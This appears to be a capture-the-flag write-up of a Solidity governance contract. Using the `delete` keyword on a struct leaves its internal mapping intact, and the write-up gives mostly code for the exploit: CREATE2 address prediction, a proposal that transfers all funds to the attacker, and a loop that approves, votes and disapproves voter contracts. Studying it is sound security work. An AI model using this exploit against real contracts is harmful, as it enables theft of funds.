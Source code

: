 This vulnerability exposes a flaw in the governance system, allowing for exploitation by malicious actors.

The vulnerability stems from the incorrect clearing of mappings inside structs when using the `delete` keyword. In this case, the flaw occurs in the `deposeViceroy` function of the `Governance` contract.

```solidity
function deposeViceroy(address viceroy, uint256 id) external {
    require(oligargyNFT.ownerOf(id) == msg.sender, "Not an oligarch");
    require(viceroys[viceroy].appointedBy == id, "Only the appointer can depose");

    idUsed[id] = false;
    delete viceroys[viceroy]; // The flaw: Mappings inside the struct are not cleared
}
```

The attacker predicts the address of the `ViceroyAttacker` contract by combining the contract's bytecode with encoded data and hashing it.

```solidity
// Address Prediction
bytes memory bytecode = type(ViceroyAttacker).creationCode;
bytecode = abi.encodePacked(
    bytecode,
    abi.encode(_governance, player, _communityWallet)
);
bytes32 hash = keccak256(
    abi.encodePacked(
        bytes1(0xff),
        address(this),
        uint(123),
        keccak256(bytecode)
    )
);
address deployedAddr = address(uint160(uint(hash)));
```

The attacker appoints the predicted viceroy address as the viceroy, gaining control over approving voters.

```solidity
// Creating a Malicious Proposal
bytes memory data = abi.encodeWithSignature(
    "exec(address,bytes,uint256)", // will transfer balance to player
    _player, // player address
    "0x", // not needed to transfer balance
    value
);
Governance(_governance).createProposal(_player, data);

```

The attacker creates a malicious proposal, including data that will transfer all funds to their account when executed.

```solidity
// Attack loop
while (attackCounter < 11) {
    // Get the bytecode for the contract to be deployed.
    // This contract is the VoterAttacker, which is responsible for voting on the proposal.
    bytes memory bytecode = type(VoterAttacker).creationCode;

    // Encode the bytecode along with the necessary parameters.
    bytecode = abi.encodePacked(
        bytecode,
        abi.encode(_governance, proposalId, address(this))
    );

    // Predict the deployment address using the encoded bytecode and salt (attackCounter).
    bytes32 hash = keccak256(
        abi.encodePacked(
            bytes1(0xff),
            address(this),
            attackCounter,
            keccak256(bytecode)
        )
    );
    address deployedAddr = address(uint160(uint(hash)));

    // Use the Viceroy's authority to approve the voter at the predicted address.
    governance.approveVoter(deployedAddr);

    // Deploy the VoterAttacker contract at the predicted address.
    new VoterAttacker{salt: bytes32(attackCounter)}(
        _governance,
        proposalId,
        address(this)
    );

    // Disapprove the voter right after they've cast their vote.
    // This creates a loophole where the voter is disapproved but their vote still counts.
    governance.disapproveVoter(deployedAddr);

    // Increment the attack counter, which also serves as the salt for the next iteration.
    attackCounter++;
}

```
